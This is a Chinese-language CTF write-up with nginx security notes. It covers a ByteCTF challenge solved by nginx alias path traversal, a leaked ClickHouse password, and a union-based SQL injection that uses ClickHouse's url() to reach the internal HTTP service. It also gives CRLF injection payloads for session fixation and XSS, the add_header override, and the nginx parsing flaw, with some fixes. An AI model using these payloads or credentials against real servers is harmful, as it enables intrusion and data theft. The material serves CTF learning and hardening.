 第一步：

nginx配置不当导致目录穿越

http://39.105.175.150:30001/files../var/lib/clickhouse/access/

有个sql文件 下载下来后拿到数据库密码


ATTACH USER user_01 IDENTIFIED WITH plaintext_password BY 'e3b0c44298fc1c149afb';

ATTACH GRANT SELECT ON ctf.* TO user_01;

通过其自带内网的http服务登录user_01拿到flag

```php
http://39.105.175.150:30001/?id=1 union all select extractTextFromHTML(html) FROM url('http://127.0.0.1:8123/?user=user_01%26password=e3b0c44298fc1c149afb%26query=select%2520*%2520from%2520ctf.flag',RawBLOB,'html String');--
# ByteCTF{e3b0c44298fc1c149afbf4c8}
```

知识点：

ngnix配置不当导致目录穿越

Nginx在配置别名（Alias）的时候，如果忘记加/，将造成一个目录穿越漏洞。
错误的配置文件示例（原本的目的是为了让用户访问到/home/目录下的文件）：

利用方法：

![](https://img-blog.csdnimg.cn/20181116174450974.png)

穿越上层目录

![](https://img-blog.csdnimg.cn/20181116174455219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

漏洞修复

![](https://img-blog.csdnimg.cn/20181116174504524.png)

![](https://img-blog.csdnimg.cn/20181116174507397.png)

crlf注入：
-

什么是crlf注入：

回车换行（CRLF）注入攻击是一种当用户将CRLF字符插入到应用中而触发漏洞的攻击技巧。CRLF字符（%0d%0a）在许多互联网协议中表示行的结束，包括HTML，该字符解码后即为\ r\ n。这些字符可以被用来表示换行符，并且当该字符与HTTP协议请求和响应的头部一起联用时就有可能会出现各种各样的漏洞，包括http请求走私（HTTP RequestSmuggling）和http响应拆分（HTTP Response Splitting）。

明天要看的文章：

https://www.cnblogs.com/mysticbinary/p/12560080.html

https://www.cnblogs.com/mysticbinary/p/12560080.html

漏洞原理

```php

Nginx会将$uri进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞。

错误的配置文件示例（原本的目的是为了让http的请求跳转到https上）：

location / {
    return 302 https://$host$uri;
}

利用方式

访问 192.168.91.130:8080

正常跳转

![](https://img-blog.csdnimg.cn/20181116173700538.png)

会话固定

payload

http://192.168.91.130:8080/%0ASet-cookie:JSPSESSID%3D360

![](https://img-blog.csdnimg.cn/20181116173708141.png)

返回包

![](https://img-blog.csdnimg.cn/20181116173713712.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

反射性XSS

payload

http://192.168.91.130:8080/%0D%0A%0D%0A%3Cimg%20src=1%20onerror=alert(/xss/)%3E

https://img-blog.csdnimg.cn/20181116174035141.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70

为什么没弹窗？

浏览器Filter对XSS特征进行了过滤，并且浏览器进行了跳转如何阻止浏览器跳转，参考链接：

https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html

https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html


漏洞修复
```php
location /{
return 302 https://$host$request_uri
}
```
使用不解码的跳转方式

ngnix漏洞3 add_header被覆盖
-
Nginx配置文件子块（server、location、if）中的add_header，将会覆盖父块中的add_header添加的HTTP头，造成一些安全隐患。

如下列代码，整站（父块中）添加了CSP头：

```php
add_header Content-Security-Policy "default-src 'self'";
add_header X-Frame-Options DENY;
location = /test1 {
    rewrite ^(.*)$ /xss.html break;
}
location = /test2 {
    add_header X-Content-Type-Options nosniff;
    rewrite ^(.*)$ /xss.html break;
}
```

但/test2的location中又添加了X-Content-Type-Options头，导致父块中的add_header全部失效：

![](https://nc0.cdn.zkaq.cn/md/6508/02483addcfc297e89b0636d98792d82a_52328.png)

XSS可被触发：

![](![image](https://user-images.githubusercontent.com/87234369/138077590-596fd965-5a37-4552-8d60-eac82d9b8512.png)

什么是csp头：
-

Content-Security-Policy

跨域脚本攻击（XSS）是最常见、危害最大的网页安全漏洞。

为了防止它，要采取很多编程措施（比如大多数人都知道的转义、过滤HTML）。很多人提出，能不能根本上解决问题，即浏览器自动禁止外部注入恶意脚本？

这就是"内容安全策略"（Content Security Policy，缩写 CSP）的由来。

两种方法可以启用 CSP：

设置 HTTP 的 Content-Security-Policy 头部字段
设置网页的<meta>标签。
网上的资料都有讲到它们怎么使用，但是很少有代码演示，不敲一遍就不够理解，下面我会直接上些例子。
（1）使用HTTP的 Content-Security-Policy头部
在服务器端使用 HTTP的 Content-Security-Policy头部来指定你的策略，像这样:

Content-Security-Policy: policy
policy参数是一个包含了各种描述CSP策略指令的字符串。

x-content-type-options头
-


如果服务器发送响应头 "X-Content-Type-Options: nosniff"，则 script 和 styleSheet 元素会拒绝包含错误的 MIME 类型的响应。这是一种安全功能，有助于防止基于 MIME 类型混淆的攻击。

 

简单理解为：通过设置"X-Content-Type-Options: nosniff"响应标头，对 script 和 styleSheet 在执行是通过MIME 类型来过滤掉不安全的文件

服务器发送含有 "X-Content-Type-Options: nosniff" 标头的响应时，此更改会影响浏览器的行为。

 

如果通过 styleSheet 参考检索到的响应中接收到 "nosniff" 指令，则 Windows Internet Explorer 不会加载“stylesheet”文件，除非 MIME 类型匹配 "text/css"。

如果通过 script 参考检索到的响应中接收到 "nosniff" 指令，则 Internet Explorer 不会加载“script”文件，除非 MIME 类型匹配以下值之一：

 

"application/ecmascript"

"application/javascript"

"application/x-javascript"

"text/ecmascript"

"text/javascript"

"text/jscript"

"text/x-javascript"

"text/vbs"

"text/vbscript"


漏洞防御

在/test2的location中删除X-Content-Type-Options头



 nginx 解析漏洞
 -
 
 访问http://URL/uploadfiles/nginx.png和http://URL/uploadfiles/nginx.png/.php即可查看效果
 
 ![](https://nc0.cdn.zkaq.cn/md/6508/f6756c4335842e461236fe30e1ffb721_93045.png)
 
 增加/.php后缀，被解析成PHP文件：
 
 ![](https://nc0.cdn.zkaq.cn/md/6508/c5e37c89df45c215a04d74b23756ee65_13165.png)
 
 也可配合文件上传来getshell。此处不再演示。


以上是根据这次字节跳动的ctf比赛而找的一些知识点，看了很多大佬博客，所以我觉得应该挺全了吧算是。

参考

https://www.jianshu.com/p/74ea9f0860d2

https://www.cnblogs.com/taosiyu/p/14827849.html
明天看
https://www.cnblogs.com/mysticbinary/p/12560080.html
